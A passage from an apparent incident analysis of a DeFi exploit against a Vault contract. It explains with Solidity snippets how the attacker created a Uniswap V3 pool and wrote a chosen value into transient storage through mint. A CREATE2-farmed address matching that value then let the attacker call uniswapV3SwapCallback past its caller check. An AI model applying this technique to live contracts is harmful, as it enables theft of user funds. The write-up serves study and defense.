 ```solidity
// Initialize Uniswap V3 pool with TokenA and TokenB
positionManager.createAndInitializePoolIfNecessary(
    address(tokenB),
    address(this), // TokenA (ExploitCoordinator)
    100, // Fee tier
    79228162514264337593543950336 // sqrtPriceX96
);

// Approve token transfers to Uniswap
tokenB.approve(address(positionManager), 108823205127466839754387550950703);

IERC20(address(this)).approve(address(positionManager), 108823205127466839754387550957989);

// Provide liquidity to the Uniswap V3 pool
positionManager.mint(
    INonfungiblePositionManager.MintParams({
        token0: address(tokenB),
        token1: address(this),
        fee: 100,
        //...
    })
);
```

With the Uniswap pool and liquidity in place, the attacker moved on to the critical step: triggering the vulnerable `uniswapV3SwapCallback` and controlling the value stored in transient storage.

To do this, they called the `mint` function of the victim Vault contract, passing a specially chosen `amountToDeposit`. This value is used internally by the victim contract and eventually written into transient storage slot `0x1` as the return value of the `_mint` function, the same slot that is later read to verify the caller in `uniswapV3SwapCallback`.

The attacker’s goal was to ensure that the `tokensMinted` value, which ends up in slot `0x1`, matches the numeric value of an address they control. With this, they could later call `uniswapV3SwapCallback` directly from a contract deployed at that address, bypassing the pool verification check.

```solidity
uint256 tokensMinted = victim.mint(
    true, // isAPE
    vaultParams,
    amountToDeposit,
    1
);
```

After calling the `mint` function and getting a specific `tokensMinted` value written into transient storage, the attacker’s next move was to deploy a contract at an address that, when cast to uint256, matched `tokensMinted`. This was achieved using CREATE2, allowing the attacker to "farm" a specific address in advance.

To do this, the attacker used a keyless CREATE2 deployer, a common technique for deploying contracts at predictable addresses. By carefully crafting the bytecode and salt, they were able to generate a contract whose address matched the expected value
